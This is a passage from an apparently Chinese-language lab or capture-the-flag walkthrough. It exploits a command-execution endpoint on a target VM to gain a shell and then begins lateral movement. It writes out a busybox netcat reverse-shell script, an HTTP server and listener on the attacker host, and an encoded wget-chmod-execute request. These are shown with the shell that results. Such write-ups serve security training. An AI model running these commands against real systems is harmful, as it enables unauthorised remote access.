 ```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -g -H "Authorization: Bearer $ADMIN_TOKEN" "http://192.168.205.149:3000/execute?cmd=busybox"
{"status":"executed","data":{"stdout":"BusyBox v1.37.0 ... \n ... \n\t ... nc, netstat, ... wget, ...\n ...","stderr":""}}
```

目标系统存在 `busybox nc` 和 `wget`，且均未被`COMMAND_FILTER`过滤。可以利用这些工具来获取反弹Shell。

1. 在本地Kali攻击机上创建一个包含反弹Shell命令的脚本 `sss`。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ cat sss
   busybox nc 192.168.205.128 8888 -e /bin/ash
   ```

2. 在Kali上开启一个临时的HTTP服务，用于靶机下载脚本。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

3. 在Kali上使用 `nc` 监听8888端口，准备接收反弹Shell。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ nc -lvnp 8888
   ```

4. 通过RCE漏洞，执行一串命令：下载脚本(`wget`)，赋予执行权限(`chmod`)，然后执行脚本。

   ```shell
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ curl -g -H "Authorization: Bearer $ADMIN_TOKEN" 'http://192.168.205.149:3000/execute?cmd=wget%20192%2E168%2E205%2E128%2Fsss%0Achmod%20%2Bx%20%2E%2Fsss%0A%2E%2Fsss'
   ```

成功接收到反弹Shell。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888                     
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.149] 45275
id
uid=1000(runner) gid=1000(runner) groups=1000(runner)
```

# **四、横向移动**

在获得的Shell中进行信息收集，发现 `/opt` 目录下存在一个 `gitea` 目录，其中包含一个名为 `node.git` 的git仓库。

```shell
...
cd /opt/gitea/git/hana
ls -al
total 12
drwxr-xr-x    3 gitea    www-data      4096 Apr 21 14:22 .
drwxr-xr-x    3 gitea    www-data      4096 Apr 21 14:22 ..
drwxr-xr-x    8 gitea    www-data      4096 Apr 21 14:36 node.git
```
